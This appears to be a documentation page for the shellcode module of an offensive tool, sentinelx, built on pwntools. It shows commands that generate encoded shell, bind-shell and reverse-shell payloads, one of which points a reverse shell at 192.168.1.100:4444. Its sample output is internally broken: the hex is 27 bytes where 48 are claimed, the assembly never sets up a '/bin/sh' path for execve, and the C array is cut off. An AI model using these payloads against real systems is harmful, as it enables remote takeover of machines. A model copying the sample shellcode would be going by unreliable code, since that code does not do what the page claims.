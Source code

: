 Generates shellcode for various architectures using pwntools.

#### Parameters
- **arch** (required): Target architecture ('amd64', 'i386', 'arm', 'aarch64', 'mips')
- **payload** (required): Payload type ('/bin/sh', 'reverse_shell', 'bind_shell', 'custom')
- **host** (optional): Target host for reverse shells
- **port** (optional): Target port for network payloads
- **encoder** (optional): Encoder to use ('none', 'xor', 'alpha')

#### Example Usage
```bash
# Basic shell spawn
sentinelx run shellcode -p "{arch: 'amd64', payload: '/bin/sh'}"

# Reverse shell
sentinelx run shellcode -p "{
  arch: 'amd64',
  payload: 'reverse_shell',
  host: '192.168.1.100',
  port: 4444
}"

# Encoded shellcode
sentinelx run shellcode -p "{
  arch: 'i386',
  payload: '/bin/sh',
  encoder: 'alpha'
}"
```

#### Output Format
```yaml
status: completed
arch: amd64
payload: /bin/sh
shellcode_length: 48
encoded: false
shellcode_hex: "4831ff4831f64889e34889e54889e24889e748c7c03b0000000f05"
shellcode_asm: |
  xor rdi, rdi
  xor rsi, rsi
  mov rbx, rsp
  mov rbp, rsp
  mov rdx, rsp
  mov rdi, rsp
  mov rax, 0x3b
  syscall
c_array: |
  char shellcode[] = {
    0x48, 0x31, 0xff, 0x48, 0x31, 0xf6, 0x48, 0x89,
    // ... rest of shellcode
  };
python_bytes: "b'\\x48\\x31\\xff\\x48\\x31\\xf6\\x48\\x89'"
```

---